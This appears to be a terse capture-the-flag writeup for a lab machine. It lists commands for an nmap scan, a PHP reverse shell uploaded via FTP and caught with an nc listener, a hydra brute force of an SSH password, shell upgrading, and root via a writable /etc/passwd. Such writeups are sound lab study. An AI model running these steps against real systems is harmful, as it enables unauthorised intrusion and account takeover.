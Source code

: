 Other players writeup
> https://kir0sploit.github.io/2023/02/cybersphere-writeup/

# Command and Techniques:

nmap -sC -p- -sV $IP -oN nmap.txt –vv

ftp: put reverse shell
> php PentestMonkey
> put the openvpn ip
> save the file on current dir

cd webalizer

put getin.php

bye

## Run reverseshell:

- attacker先run： nc -nlvp 8899
- run the reverse shell by running the web browser: 10.10.207.136/webalizer/getin.php

hydra  -l   jack  -P  /usr/share/wordlists/rockyou.txt   ssh://10.10.233.62

login: jack   password: qwertyuiop

goto /home we know that user is jack.
- we dont know the password
- use the hydra to bruteforce the ssh password
- after knowing the password, su jack
- execute interactive command:
	python2 -c 'import pty;pty.spawn("/bin/bash")'
	export TERM=xterm
	press CTRL + Z
	stty raw -echo;fg
- open new terminal: run another remote command
boom! get the jack shell

or

ssh jack@10.10.233.62 

run the Linpeas tool on the /tmp directory - to see which path is vulnerable that we could edit/modify

ls  -al  /etc/passwd

or

sudo -l

generate encryted password: openssl passwd [your password]

nano  /etc/passwd - paste the passwd on x

su root

